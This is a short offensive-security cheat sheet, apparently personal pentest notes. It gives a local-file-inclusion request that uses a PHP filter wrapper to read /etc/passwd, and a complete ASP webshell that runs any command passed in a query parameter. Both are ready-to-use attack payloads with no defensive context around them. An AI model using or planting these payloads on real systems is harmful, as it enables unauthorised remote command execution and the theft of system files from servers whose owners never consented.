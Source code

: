 # Web
Read PHP Code with PHP Filter :
```http
https://X.X.X.X/image.php?img=php://filter/convert.base64-encode/resource=/etc/passwd
```
## Webshell
ASP : 
```aspx
<%
Response.write("<pre>")
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c " & Request.QueryString("cmd"))
o = cmd.StdOut.Readall()
Response.write(o)
Response.write("</pre>")
%>
```

TODO :
https://github.com/internetwache/GitTools
